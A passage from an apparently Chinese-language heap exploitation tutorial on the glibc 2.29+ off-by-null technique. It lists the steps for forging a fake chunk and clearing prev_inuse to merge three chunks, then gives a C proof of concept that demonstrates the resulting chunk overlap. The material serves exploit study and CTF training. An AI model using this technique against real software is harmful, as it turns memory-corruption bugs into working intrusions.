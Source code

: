 - 构造大、小、大三个`chunk`，设为`A B C`
- 保证`C`的`size`为`0x?00`，即`0x100`的倍数
- 在`A`可控部分构造`fake chunk`，伪造`size`、`fd`、`bk`
- 填满`B`，写下`C`的`prev_size`为`A`中的`fake chunk`和`B`的`size`之和
- 上一步的同时触发`off by null`使得`C`的`prev_inuse`为`0`
- 释放`C`，会使得`fake chunk`、`B`、`C`合并

### 实现效果

`chunk overlap`

### 图解

![off_by_null_2.29](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/off_by_null_2.29.png)

### POC

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    // 对于大于等于glibc2.29的chunk，若可以泄露堆地址，那么还是可以构造三明治结构
    size_t* chunk_a = malloc(0x4f0);
    size_t* chunk_b = malloc(0x18);
    size_t* chunk_c = malloc(0x4f0);
    size_t* gap = malloc(0x10);

    // 条件1： 需要在chunk A中构造fake chunk，需要知道堆地址
    chunk_a[0] = 0; // fake prev_size
    chunk_a[1] = 0x511; // fake size
    chunk_a[2] = (size_t)chunk_a; // fake fd
    chunk_a[3] = (size_t)chunk_a; // fake bk
    
    printf("Before attack we set the size of fake chunk to be 0x%lx.\n", chunk_a[1]);

    // 条件2：写chunk_c的prev_size的同时off by null
    chunk_c[-2] = 0x510;
    chunk_c[-1] = 0x500;

    // 通过释放chunk_c来进行off by null
    free(chunk_c);

    printf("After attack the size of fake chunk is 0x%lx, proves the three chunks have been merged.\n", chunk_a[1]);

    return 0;
}
```

### 不可泄露堆地址
